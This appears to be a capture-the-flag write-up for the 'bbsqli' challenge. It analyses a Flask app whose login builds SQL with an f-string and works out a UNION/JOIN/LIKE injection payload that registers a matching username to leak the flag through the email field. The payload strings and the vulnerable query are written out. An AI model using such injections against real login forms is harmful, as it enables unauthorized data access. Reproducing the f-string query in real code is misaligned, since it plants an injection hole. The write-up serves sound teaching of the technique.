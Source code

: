 # bbsqli
```
SO Classic !

Author: xhalyl

http://45.129.40.107:9676/
```
Attached is `bbsqli.zip`, [containing](bbsqli):
```
app.py

utils.py
static/
templates/

Dockerfile
requirements.txt
```
Inspecting [app.py](bbsqli/app.py) we see a few interesting lines:
```py
from flask import Flask, render_template, request, redirect, url_for, session
import sqlite3
```
- It's a **flask** webserver
- It uses **sqlite3**
```py
def add_flag(flag):
    conn = get_db_connection()
    cursor = conn.cursor()
    cursor.execute('INSERT INTO flags (flag) VALUES (?)', (flag,))
    conn.commit()
    conn.close()
```
- The **flag** is stored in the `flags` table

Also, from the name - _bb**sqli**_ we can guess that the challenge is an **SQL
injection.** \
Let's search for some potentially vulnerable SQL. \
In the `login` function we find:
```py
cursor.execute(f'SELECT username,email,password FROM users WHERE username ="{username}"')
```
This means we can *easily* inject SQL! Right? Right..?

Well, this is partially true. Although we indeed can run "any" SQL, it follows a
`SELECT`, so we can't update/create data in the database.

*Just return the flag as the username/email, what's the problem?*

The app makes sure that the *username* from the **DB** matches the **requested** *username*
```py
if user and user['username'] == username and user['password'] == hash_password(password):
    session['username'] = user['username']
    session['email'] = user['email']
else:
    return render_template('login.html', error='Invalid username or password')
```

So for example something like
```sql
" UNION SELECT flag AS username, '', '' FROM flags --
```
Wouldn't work, because the **requested** username is \
`" UNION SELECT flag AS username, '', '' FROM flags --` \
while the username from the **DB** would be something like \
`L3AK{a_flag_here}`

So the `if` condition would evaluate `false` and we would get an error page.

Another thing to notice here is that on a successful login, we will see
[templates/dashboard.html](bbsqli/templates/dashboard.html), which contains
```html
<h2>Welcome, {{ user }}!</h2>
<p>Email: {{ email }}</p>
```
Alright, so if we could set the *email* to the flag, and pass the `if` check, we
will get it! Great.

**Now, how do we pass the check?**

We need to have our username *equal* the SQL injection. We can create an account
with the name of the SQLi, but how would we return it? After all, we can't just
put it inside itself
```
" UNION SELECT '" UNION SELECT '', flag AS email, '667ff118ef6d196c96313aeaee7da519' FROM flags --', flag AS email, '667ff118ef6d196c96313aeaee7da519' FROM flags --
```
Because, well, that's just recursive, as now we will have to put it into itself
once again, and like this for *eternity*.

Thankfully, SQL allows us to select a user using a pattern with the `WHERE LIKE` syntax.
For this we will have to take our original idea for an injection
```sql
" UNION SELECT flag AS username, '', '' FROM flags --
```
And modify it. First, we want to select our user. For that let's add a *recognizable* comment

```
" /* findme */ UNION SELECT username, 'FLAG{TODO}', password FROM users WHERE username LIKE '%findme%' --
```
![`/dashboard` Welcoming us with `Email: FLAG{TODO}`](./images/partial_success.png)

Great!

Now we just need to get the flag from the flags table and supply it instead of
the email. For this we can use **JOIN**. Because there's only *one* flag, we can get it with `flags.id` being `1`

```sql
" /* findme */ UNION SELECT users.username, flags.flag AS email, users.password FROM users JOIN flags ON flags.id = 1 WHERE users.username LIKE '%findme%' --
```

Here's the highlighted and formated query that will run on the server
```sql
SELECT username, email, password
    FROM users
    WHERE username ="" /* findme */
UNION
SELECT users.username, flags.flag AS email, users.password
    FROM users
    JOIN flags
        ON flags.id = 1
    WHERE users.username
    LIKE '%findme%' -- "
```

Alright, now we just visit `http://45.129.40.107:9676/register`, create an account with that name, and login!
Also, we probably should change `findme` to something a bit more *unique* to not find a different, existing, user
> [!NOTE]
> The SQLi happens during **login**, we register just so it's possible for us to **SELECT** it as the username during the SQLi.

![`/register` with the SQLi as the username](./images/final_register.png)

Login into the user

![`/login` with the same SQLi as the username](./images/final_login.png)

Success!

![`/dashboard` Welcoming us with `Email: L3ak{__V3RY_B4S1C_SQLI}`](./images/final_dashboard.png)

**Flag:** L3ak{__V3RY_B4S1C_SQLI}

> _**PS:**_ After the CTF I realized that we don't actually need a comment, as the content of `LIKE` already contains a string. So this would also work: `" UNION SELECT users.username, flags.flag AS email, users.password FROM users JOIN flags ON flags.id = 1 WHERE users.username LIKE '%findme%' --`
